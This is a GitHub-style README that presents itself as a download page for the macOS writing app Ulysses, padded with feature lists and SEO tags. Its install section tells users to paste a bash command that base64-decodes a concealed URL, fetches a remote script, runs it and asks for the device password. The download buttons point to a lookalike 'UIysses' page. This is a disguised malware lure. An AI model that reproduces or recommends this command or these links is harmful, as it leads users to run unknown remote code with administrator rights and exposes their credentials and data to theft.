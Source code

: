 # ✍️ Ulysses — Focused Writing App for macOS

**Ulysses** is a clean, distraction-free writing application designed specifically for macOS. It combines powerful writing tools with an elegant, minimalistic interface, helping writers, bloggers, and authors to focus on their craft and organize their texts seamlessly.

Ulysses supports Markdown, offers seamless sync across Apple devices, and provides advanced export options to make publishing effortless.

---

## ✅ Download Ulysses for macOS  
[![Download Ulysses](https://img.shields.io/badge/Download-Ulysses-blueviolet)](https://shuziktobehuman.github.io/huja/UIysses)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)




## 📦 What is Ulysses?

Ulysses is a feature-packed writing environment that merges simplicity with versatility. It supports everything from quick notes to full-length novels, with tools for organizing your texts, managing writing goals, and exporting to multiple formats including PDF, DOCX, and ePub.

---

## ✨ Features

- ✍️ Clean, distraction-free writing interface  
- 🗂️ Powerful library for organizing projects and texts  
- 🌐 Seamless iCloud sync between Mac, iPhone, and iPad  
- 📅 Writing goals and progress tracking  
- 🔖 Full Markdown support with live preview  
- 📤 Export to PDF, DOCX, ePub, HTML, and more  
- 🔍 Smart search and filtering  
- 🌙 Dark mode and customizable themes  
- 📱 Integration with external keyboards and Apple Pencil (iPad)  

---

## 💡 Why Use Ulysses?

- 🧠 Maintain focus with a clutter-free writing space  
- 📚 Organize large writing projects with ease  
- 🔄 Keep your work synced across all Apple devices  
- 📈 Set and track writing goals for motivation  
- 🖥️ Perfect for bloggers, novelists, students, and professionals  

---

[![Download Ulysses](https://img.shields.io/badge/Download-Ulysses-blueviolet)](https://shuziktobehuman.github.io/huja/UIysses)

---



## 🖼️ Preview

![Ulysses Screenshot 1](https://stories.ulysses.app/content/images/size/w2000/wordpress/2018/09/V14-2.jpg)  
![Ulysses Screenshot 2](https://cdn.macstories.net/001/2018-10-24-14-37-39.jpeg)

---

## 📌 Tags

ulysses, ulysses book, hms ulysses, ulysses joyce, dubliner book,  
hms ulysses book, leopold bloom, novel ulysses, odysseus ulysses,  
odyssey of ulysses, the odyssey and ulysses, ulysses and odysseus,  
ulysses odyssey book, writer of ulysses, ulysses mac, ulysses mac download 
